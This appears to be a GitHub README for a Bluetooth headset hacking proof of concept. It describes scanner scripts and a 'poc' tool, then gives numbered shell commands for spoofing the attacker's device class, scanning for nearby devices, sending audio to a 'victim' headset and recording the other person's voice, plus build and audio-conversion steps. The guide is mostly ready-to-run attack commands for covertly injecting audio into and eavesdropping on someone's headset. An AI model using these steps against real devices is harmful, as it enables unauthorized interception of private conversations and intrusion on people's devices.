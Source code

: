 # File info
- btScan.py
  - Locate the Bluetooth device nearby.
  - However, the device must have the search function turned on.
- rfcommScan.py
  - Search for open channels in the rfcomm protocol.
  - In my case, I have only 4 earset channels, so I only scan channel four.
- poc
  - Send a voice message to the Bluetooth earset 
  - and receive the other person's voice message.


# how to hack the bluetooth earset
1. Turn on the my bt-device
   ```bash
   sudo hciconfig hci0 up
   ```
2. In order to hack the earset, the class information of the device is changed. (class info: [link](http://bluetooth-pentest.narod.ru/software/bluetooth_class_of_device-service_generator.html))
   ```bash
   hciconfig -a
   hciconfig hci0 class 0x50020c # (class-SmartPhone, telephony, ObjectTransfer)
   ```
   
4. Locate the Bluetooth device nearby.
   ```bash
   hcitool scan
   ```
5. send voice to victim from hacker.
   ```bash
   ./poc <hci#> <messagefile> <recordfile> <bdaddr> [channel]
   ```
6. And then if you recieve a some data, you have to convert file from `raw` file to `wav`file
   ```bash
   sox -b 16 -s -c 1 -r 8100 -t raw [in.raw] [out.wav]
   ```
   
# Appendix
### 1. Compile `poc.c`
- Command
   ```bash
   gcc -o poc poc.c -lbluetooth 
   ```
   
### 2. Convert `raw` file to `wav` file
- Command
   ```bash
   sox -b 16 -s -c 1 -r 8100 -t raw [in.raw] [out.wav]
   ```   
### 3. Convert `wav` file to `raw` file
- Command
   ```bash
   sox --bits 16 --encoding signed-integer --endian little [in.wav] [out.raw]
   ```
